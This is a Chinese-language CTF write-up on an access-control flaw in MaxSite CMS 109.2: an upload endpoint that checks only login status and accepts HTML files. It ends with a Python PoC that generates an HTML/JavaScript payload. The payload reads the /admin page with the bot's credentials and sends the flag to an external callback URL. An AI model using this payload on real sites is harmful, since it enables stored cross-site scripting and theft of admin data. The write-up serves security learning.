





# N-MinSite

## 题目简述

MaxSite 109.2 相关 Web 题。入口可通过 `/?key` 获取源码；后台上传点 `uploads-require-maxsite.php` 只检查登录态而没有复用 `admin_page_edit/admin_page_new` 权限控制，且允许上传 HTML，最终用夹带 JavaScript 的 HTML 让 bot 访问后台并回传 flag。

## 解题过程

对应MaxSite109.2

那个 key 审计代码不难发现直接访问 /?key 就可以触发，然后再访问所给的地址就可以下载到源码

然后就是文件上传部分：



首先可以看到 application/views/require-maxsite.php 可以将 base64编码后的路径直接 require() ，这里给了个过滤，要求后缀是 -require-maxsite.php ，看起来似乎很安全，但是我们可以找到 application/maxsite/admin/plugins/admin_page/uploads-require-maxsite.php ，为什么说这个文件比较特殊，因为在 /admin_page 下，大部分文件都做了 admin_page_edit 校验，比如：



正常情况下，后台 user 要想通过文章编辑器里的上传入口使用这个功能，前提是管理员已经在用户组里授予了对应的页面管理权限。

admin_page 插件路由本身就做了权限控制：

```javascript
function admin_page_admin_init($args = array())
{
        if ( mso_check_allow('admin_page') )
        {
                $this_plugin_url = 'page';
                mso_admin_menu_add('page', $this_plugin_url, t('Все записи'),
2);
                mso_admin_url_hook ($this_plugin_url, 'admin_page_admin');
        }
        if ( mso_check_allow('admin_page_new') )
        {
                $this_plugin_url = 'page_edit';
                mso_admin_url_hook ($this_plugin_url, 'admin_page_edit');
                $this_plugin_url = 'page_new';
                mso_admin_menu_add('page', $this_plugin_url, t('Создать
запись'), 1);
                mso_admin_url_hook ($this_plugin_url, 'admin_page_new');
        }
}
function admin_page_edit($args = array())
{
        if ( !mso_check_allow('admin_page_edit') )
        {
                echo t('Доступ запрещен');
                return $args;
        }
}
function admin_page_new($args = array())
{
        if ( !mso_check_allow('admin_page_new') )
        {
                echo t('Доступ запрещен');
                return $args;
        }
}
```

而且创建文章时，服务端也要求 admin_page_new ；如果没有 admin_page_publish ，文章状态还会被强制改成草稿：

```text
if (!mso_check_user_password($user_login, $password, 'admin_page_new'))
    return array('result' => 0, 'description' => 'Login/password incorrect');
if (!mso_check_allow('admin_page_publish', $user_data['users_id']))
$page_status = 'draft';
```

同目录下其他与文章编辑相关的 AJAX 入口，也都要求 admin_page_edit ，例如：

```text
// bsave-post-ajax.php
if (!is_login()) die('no login');
if (!mso_check_allow('admin_page_edit')) die('no allow');
```

也就是说，只有被管理员授予页面管理权限的后台 user ，才应该通过编辑器使用页面附件上传功能。

但 uploads-require-maxsite.php 并没有复用这套权限校验

这个文件只做了一个 is_login() 的判断：



但是这个 is_login 是对后台登录状态进行校验，而后台分为两个组：



这说明如果是普通的内容作者而非CMS的管理员也可能进行上传，只需要知道上传地址即可

紧接着我们来看它对于文件的校验：

```text
$ext = strtolower(substr(strrchr($fn, '.'), 1));
$allowed_ext = explode('|', mso_get_option('allowed_types', 'general',
'mp3|gif|jpg|jpeg|png|zip|txt|rar|doc|rtf|pdf|html|htm|css|xml|odt|avi|wmv|flv|
swf|wav|xls|7z|gz|bz2|tgz|webp'));
if (!in_array($ext, $allowed_ext)) die('not allowed');
```

只是过滤了一下后缀，但是依然可以上传 html

然后是对文件名的重命名：

```javascript
function _upload($up_dir, $fn, $r = array())
{
        // качество картинок задаётся через опцию
        $quality = mso_get_option('upload_resize_images_quality', 'general',
90);
        $fn = _slug($fn);
        $ext = strtolower(substr(strrchr($fn, '.'), 1));
        $name = substr($fn, 0, strlen($fn) - strlen($ext) - 1);
....
function _slug($slug)
{
        $repl = array(
        "А"=>"a", "Б"=>"b",  "В"=>"v",  "Г"=>"g",   "Д"=>"d",
        "Е"=>"e", "Ё"=>"jo", "Ж"=>"zh",
        "З"=>"z", "И"=>"i",  "Й"=>"j",  "К"=>"k",   "Л"=>"l",
        "М"=>"m", "Н"=>"n",  "О"=>"o",  "П"=>"p",   "Р"=>"r",
        "С"=>"s", "Т"=>"t",  "У"=>"u",  "Ф"=>"f",   "Х"=>"h",
        "Ц"=>"c", "Ч"=>"ch", "Ш"=>"sh", "Щ"=>"shh", "Ъ"=>"",
        "Ы"=>"y", "Ь"=>"",   "Э"=>"e",  "Ю"=>"ju", "Я"=>"ja",
        "а"=>"a", "б"=>"b",  "в"=>"v",  "г"=>"g",   "д"=>"d",
        "е"=>"e", "ё"=>"jo", "ж"=>"zh",
        "з"=>"z", "и"=>"i",  "й"=>"j",  "к"=>"k",   "л"=>"l",
        "м"=>"m", "н"=>"n",  "о"=>"o",  "п"=>"p",   "р"=>"r",
        "с"=>"s", "т"=>"t",  "у"=>"u",  "ф"=>"f",   "х"=>"h",
        "ц"=>"c", "ч"=>"ch", "ш"=>"sh", "щ"=>"shh", "ъ"=>"",
        "ы"=>"y", "ь"=>"",   "э"=>"e",  "ю"=>"ju",  "я"=>"ja",
        # украина
        "Є" => "ye", "є" => "ye", "І" => "i", "і" => "i",
        "Ї" => "yi", "ї" => "yi", "Ґ" => "g", "ґ" => "g",
        # беларусь
        "Ў"=>"u", "ў"=>"u", "'"=>"",
        # румынский
        "ă"=>'a', "î"=>'i', "ş"=>'sh', "ţ"=>'ts', "â"=>'a',
        "«"=>"", "»"=>"", "—"=>"-", "`"=>"", " "=>"-",
        "["=>"", "]"=>"", "{"=>"", "}"=>"", "<"=>"", ">"=>"",
        "?"=>"", ","=>"", "*"=>"", "%"=>"", "$"=>"",
        "@"=>"", "!"=>"", ";"=>"", ":"=>"", "^"=>"", "\""=>"",
        "&"=>"", "="=>"", "№"=>"", "\\"=>"", "/"=>"", "#"=>"",
        "("=>"", ")"=>"", "~"=>"", "|"=>"", "+"=>"", "”"=>"", "“"=>"",
        "'"=>"",
        "’"=>"",
        "—"=>"-", // mdash (длинное тире)
        "–"=>"-", // ndash (короткое тире)
        "™"=>"tm", // tm (торговая марка)
        "©"=>"c", // (c) (копирайт)
        "®"=>"r", // (R) (зарегистрированная марка)
        "…"=>"", // (многоточие)
        "“"=>"",
        "”"=>"",
        "„"=>"",
        " "=>"-",
        );
        $slug = strtr(trim($slug), $repl);
        $slug = htmlentities($slug); // если есть что-то из юникода
        $slug = strtr(trim($slug), $repl);
        $slug = strtolower($slug);
        return $slug;
}
```

只是对文件名和后缀进行限制，所以我们可以构造一个夹带恶意 JS 代码的 html 文件进行上传，从而达到信息泄露或者其他攻击：

### PoC

```python
def build_payload(exfil_url: str) -> str:
    separator = "&" if "?" in exfil_url else "?"
    send_url = f"{exfil_url}{separator}src=bot"
    return f"""<section>
<h2>Editorial Preview</h2>
<p>Queued for homepage rendering.</p>
</section>
<script>
(async () => {{
  const callback = {send_url!r};
  const send = (kv) => {{
    const img = new Image();
    img.referrerPolicy = 'no-referrer';
    img.src = callback + '&' + kv;
  }};
  const response = await fetch('/admin', {{ credentials: 'include' }});
  const text = await response.text();
  const match = text.match(/id=["']gzctf-flag-value["'][^>]*>([^<]+)/i);
  const flag = match ? match[1].trim() : 'flag_not_found';
  send('flag=' + encodeURIComponent(flag));
}})().catch((error) => {{
  const reason = error && error.message ? error.message : 'bot_fetch_failed';
  (new Image()).src = {send_url!r} + '&error=' + encodeURIComponent(reason);
}});
</script>
"""
```

然后等待bot回显即可



## 方法总结

- 核心技巧：CMS 后台上传权限绕过 + HTML/JS 上传触发 bot 侧信息泄露。
- 识别信号：同目录大多数 AJAX 入口都有细粒度权限校验，但某个上传入口只做 `is_login()` 时，应检查低权限用户是否能上传可执行前端内容。
- 复用要点：审计 CMS 插件时要横向对比同类入口权限，并把文件名/后缀过滤与实际可利用 MIME/脚本上下文分开看。
